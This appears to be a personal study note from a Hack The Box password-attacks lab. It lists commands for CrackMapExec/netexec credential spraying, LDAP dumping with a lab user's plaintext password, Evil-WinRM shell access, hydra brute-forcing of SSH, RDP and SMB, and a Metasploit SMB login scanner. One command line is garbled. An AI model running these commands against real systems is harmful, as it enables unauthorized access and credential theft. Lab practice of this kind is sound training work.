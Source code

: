 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

[[SMB]] [[LDAP]] [[mssql]]
##### SMB, LDAP, MSSQL, etc.
https://github.com/byt3bl33d3r/CrackMapExec

```shell
sudo apt-get -y install crackmapexec

crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```

#### SMB enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares
```

#### LDAP
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```

#### Evil-WinRM
#shell [[bind shell]]
to log in and get the shell:
```
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```


[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

##### SMB via metasploit
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list
set USER_FILE username.list
set RHOST STMIP
run
```